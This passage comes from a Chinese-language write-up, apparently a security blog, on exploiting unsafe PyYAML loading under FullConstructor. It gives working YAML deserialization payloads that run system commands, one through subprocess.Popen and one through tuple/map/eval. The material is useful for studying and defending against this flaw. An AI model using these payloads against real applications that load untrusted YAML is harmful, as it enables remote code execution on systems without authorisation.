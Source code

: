 那么最直接的思路就是，有没有一个模块，它在 FullConstructor 上下文中的 `sys.modules` 里，同时它还有一个类，这个类可以执行命令？答案就是 `subprocess.Popen`。所以最简单的 payload 就是：

```
yaml.load("""
!!python/object/apply:subprocess.Popen
  - whoami
""")

PY
```



不用 `!!python/object/apply` 的话，也有其他办法。

通过遍历 builtins 下的所有方法，可以找到这些看起来有点用的：

```
bool、bytearray、bytes
complex
dict
enumerate
filter、float、frozenset
int
list
map、memoryview
object
range、reversed
set、slice、str、staticmethod
tuple
zip

PYTHON
```



其中，`map` 是可以用来触发函数执行的，那么函数怎么引用进来呢？很明显就是 `python/name`，所以这个 payload 的原型就可以是：

```
tuple(map(eval, ["__import__('os').system('whoami')"]))

PY
```



翻译为 YAML 即为：

```
yaml.load("""
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:eval
  - ["__import__('os').system('whoami')"]
""")

PY
```
